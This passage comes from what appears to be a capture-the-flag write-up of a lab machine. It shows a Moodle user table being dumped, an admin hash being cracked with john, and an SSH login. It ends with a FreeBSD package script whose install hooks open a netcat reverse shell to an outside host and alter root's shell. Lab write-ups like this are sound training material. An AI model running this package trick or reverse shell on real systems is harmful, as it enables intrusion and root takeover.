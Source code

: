 {{< figure src="__GHOST_URL__/content/images/2021/07/image-36.png" >}}

There are quite a few tables, the one of interest is `mdl_user`. Let's see that.

Command:
`/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle;select * from mdl_user;'`

{{< figure src="__GHOST_URL__/content/images/2021/07/image-37.png" >}}

This gives us a bunch of users as well as hashes! Let's copy these back to our machine. We see a total of 28 users. Only one of them is an admin: Jamie

{{< figure src="__GHOST_URL__/content/images/2021/07/image-38.png" >}}

We'll just extract his hash, and put it into a file for cracking.

Command:
`john jamie_hash -w=/usr/share/wordlists/rockyou.txt`

{{< figure src="__GHOST_URL__/content/images/2021/07/image-39.png" >}}

About a minute later, we have a password - `!QAZ2wx`. Let's try to use this password to `SSH` into the box.

Command:
`ssh jamie@10.10.10.234`

We're in!

{{< figure src="__GHOST_URL__/content/images/2021/07/image-40.png" >}}

Now that we're on the box, we can start enumerating more. As usual, we run the `sudo -l` command to see if there are any dead giveaways. Sure enough, we have something:

{{< figure src="__GHOST_URL__/content/images/2021/07/image-41.png" >}}

A quick attempt at the exploit listed on [GTFObins](https://gtfobins.github.io/gtfobins/pkg/) is a no go. Some additional searching about custom `pkgs` lead me [here](http://lastsummer.de/creating-custom-packages-on-freebsd/) and [here](https://github.com/freebsd/pkg#pkgfmt). We can almost copy paste the steps we need to follow in order to create our own package. We just need to change our command slightly so we can get a reverse shell. 

```bash
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
echo "Resetting root shell"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.70 5050 >/tmp/f
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
echo "Registering root shell"
pw usermod -n root -s /bin/sh
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
```
